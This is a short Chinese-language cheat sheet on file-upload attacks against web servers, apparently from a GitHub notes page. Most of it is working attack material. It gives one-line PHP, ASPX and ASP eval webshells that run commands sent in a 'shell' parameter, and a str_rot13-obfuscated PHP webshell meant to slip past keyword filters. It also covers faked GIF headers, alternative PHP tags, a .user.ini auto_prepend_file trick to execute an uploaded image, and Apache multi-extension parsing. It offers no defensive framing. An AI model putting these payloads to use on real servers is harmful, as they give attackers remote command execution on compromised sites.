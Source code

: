 # Upload

* ### 上传图片马

burp抓包更改后缀（php，html，js，aspx）

注意文件头：

```
GIF98a //GIF文件头
```

* #### 关键字屏蔽绕过：

```
<?php=
```

```
<?php

?>
```

```
<script language="php"></script>
```

上面的三句话等价

屏蔽eval、assert等木马关键字时，通过加密解密进行绕过

```
<?php 
$exp = $_POST['shell'];
@preg_replace('/ad/e','@'.str_rot13('riny').'($exp)', 'add');
?>    //等同于php一句话<?php eval($_POST[shell]);?>
```

aspx木马

```
<%@ Page Language="Jscript"%><%eval(Request.Item["shell"],"unsafe");%>
```

asp木马

```
<%eval request("shell")%>
```

特殊：通过上传.user.ini内部增加文件自动包含进行传马攻击

```
Auto_prepend_file=2.jpg
```

Apache的解析机制绕过

APACHE默认文件名中可以带.号，当解析文件遇到.号时，从右至左依次解析。比如：test.php.xxx.aaa，.xxx和.aaa这两种后缀是apache不可识别解析,apache就会把test.php.xxx.aaa解析成test.php





